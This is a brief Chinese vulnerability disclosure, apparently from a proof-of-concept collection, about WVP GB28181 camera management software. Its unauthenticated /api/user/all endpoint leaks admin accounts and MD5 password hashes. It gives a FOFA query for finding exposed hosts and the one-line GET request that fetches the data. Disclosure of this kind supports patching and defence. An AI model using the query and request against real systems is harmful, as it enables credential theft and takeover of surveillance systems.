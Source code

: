 **fofa**

title="国标28181"

**一、漏洞简述**

WVP GB28181是我国监控视频信息技术的重要标准，它是指基于IP网络的视频监控系统技术要求和测试方法的标准。该标准的制定，旨在规范和统一我国监控视频信息技术领域的发展，提高监控视频系统的技术水平和应用质量，保障公共安全和社会秩序的需要。其接口/api/user/all存在敏感信息泄露，攻击者可获取到管理员账号/md5密码，从而控制系统。

**漏洞检测poc**

```yaml
GET /api/user/all HTTP/1.1
Host: x.x.x.x
```

![image-20240517143629194](WVP-GB28181%E6%91%84%E5%83%8F%E5%A4%B4%E7%AE%A1%E7%90%86%E7%AB%AF%20api-user-all%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/image-20240517143629194.png)